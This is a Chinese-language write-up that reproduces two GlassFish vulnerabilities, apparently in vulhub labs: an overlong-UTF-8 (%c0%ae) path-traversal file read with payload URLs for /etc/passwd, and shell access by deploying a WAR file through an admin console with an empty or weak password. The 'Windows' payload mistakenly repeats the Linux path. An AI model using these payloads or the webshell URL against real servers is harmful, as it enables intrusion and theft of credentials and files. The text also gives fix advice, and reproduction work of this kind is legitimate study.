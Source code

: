 # GlassFish 任意文件读取漏洞

GlassFish 是用于构建 Java EE 5应用服务器的开源开发项目的名称。它基于 Sun Microsystems 提供的 Sun Java System Application Server PE 9 的源代码以及 Oracle 贡献的 TopLink 持久性代码。该项目提供了开发高质量应用服务器的结构化过程，以前所未有的速度提供新的功能。
默认端口：8080（Web应用端口，即网站内容），4848（GlassFish管理中心）
指纹信息：
Server: GlassFish Server Open Source Edition 4.1.2
X-Powered-By: Servlet/3.1 JSP/2.3 (GlassFish Server Open Source Edition 4.1.2 Java/Oracle Corporation/1.8)



# 漏洞原理

**java语言中会把%c0%af解析为\uC0AF，最后转义为ASCCII字符的/（斜杠）。利用..%c0%af..%c0%af来向上跳转，达到目录穿越、任意文件读取的效果。 计算机指定了UTF8编码接收二进制并进行转义，当发现字节以0开头，表示这是一个标准ASCII字符，直接转义，当发现110开头，则取2个字节 去掉110模板后转义。**

**java语言中会把%c0%ae解析为\uC0AE，最后转义为ASCCII字符的.（点）。利用%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/来向上跳转，达到目录穿越、任意文件读取的效果。**



# 影响范围

```
<=4.1.2版本
```





**打开GlassFish后台登录界面**

![image-20220427113005081](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220427113005081.png)



使用Payload

```
Linux下读取etc/passwd内容
/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd

windows下读取windows/win.ini文件内容
/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd

可自己构造读取对方服务器上的文件，如一些敏感文件等，或账号密码配置文件
```

使用该payload前先识别对方服务器是windows还是linux，尝试读取默认存在的文件

![image-20220427113338752](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220427113338752.png)

成功执行

![image-20220427113356787](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220427113356787.png)



# 修复建议

升级至最新版本或者4.1.2版本以上。





# GlassFish 后台Getshell

通过爆破或者弱口令进入后台后，可以部署war包来getshell。



# 影响范围

全版本管理中心登录账号弱口令





# 漏洞复现

默认安装的GlassFish管理中心是空密码的，无需登录，直接进入后台。

![image-20211113230142063](https://img-blog.csdnimg.cn/img_convert/c0f354a54b27752d12ce5c663b3b646c.png)





进入后台后 Applications，点击右边的deploy。



![image-20211113230246438](https://img-blog.csdnimg.cn/img_convert/ea6ce807aa6f2ce5d7f91032c77d7751.png)



选中war包后上传，填写Context Root 这个关系到你访问的url，点击Ok。



![image-20211113230644074](https://img-blog.csdnimg.cn/img_convert/a31837f2ce34c12b9bc6e7c0456bd33f.png)

访问`http://127.0.0.1:8080/[Context Root]/[war包内的filename]`
`http://127.0.0.1:8080/getshell/1.jsp?pwd=123&i=ipconfig`

![image-20211113231027707](https://img-blog.csdnimg.cn/img_convert/d67700009260c6e4fbbce78a1b513b7c.png)





# 修复建议

1.不开放后台给外网；
2.若开放 密码强度需设置 包含 大写字母，小写字母，数字，特殊字符，且长度大于10位。









# 总结

GlassFish存在的漏洞有很多，这里总结主要是对一些常见的漏洞复现和分析（主要是vulhub上的环境）当然了目前网上都有很多自动化的检测和利用工具，这里手动验证是为了加深印象


